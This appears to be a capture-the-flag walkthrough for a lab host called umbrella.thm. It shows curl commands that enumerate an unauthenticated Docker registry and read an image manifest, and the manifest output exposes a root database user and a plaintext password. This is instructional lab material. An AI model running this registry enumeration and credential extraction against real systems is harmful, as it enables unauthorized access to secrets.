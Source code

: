 
## FootHold

### **Enumerating the Docker Registry**

```console
$ curl -s http://umbrella.thm:5000/v2/_catalog | jq
{
  "repositories": [
    "umbrella/timetracking"
  ]
}
```
1. there are one repository : umbrella/timetracking

```console
$ curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/tags/list | jq
{
  "name": "umbrella/timetracking",
  "tags": [
    "latest"
  ]
}

```
2. there are on tag : latest

### **Database Credentials**

```console 
$ curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest | jq 
    {
    "v1Compatibility": "{\"id\":\"a736d9865b752b4c30c68719d04b5f5e404bd9302ab81a451a2b6679901ee50d\",\"parent\":\"15da84a53f8e99c1b070fa72a863ba37ccfd70e0df889ff4a8b03f935e03e98b\",\"created\":\"2022-12-22T10:02:11.849073942Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  ENV DB_DATABASE=timetracking\"]},\"throwaway\":true}"
    },
    {
      "v1Compatibility": "{\"id\":\"15da84a53f8e99c1b070fa72a863ba37ccfd70e0df889ff4a8b03f935e03e98b\",\"parent\":\"1b554b4528b3ad29a93acfab26b606a4c35c1578d23de83af30dac456324f341\",\"created\":\"2022-12-22T10:02:11.638209337Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  ENV DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5\"]},\"throwaway\":true}"
    },
    {
      "v1Compatibility": "{\"id\":\"1b554b4528b3ad29a93acfab26b606a4c35c1578d23de83af30dac456324f341\",\"parent\":\"8b227f4d6cab8d95100554ab36684fc95ba5e1b28bf701351a70bf163a0835f6\",\"created\":\"2022-12-22T10:02:11.442849337Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  ENV DB_USER=root\"]},\"throwaway\":true}"
    }
    ......
    ......
```
ENV DB_DATABASE=timetracking
ENV DB_PASS=**************
ENV DB_USER=root
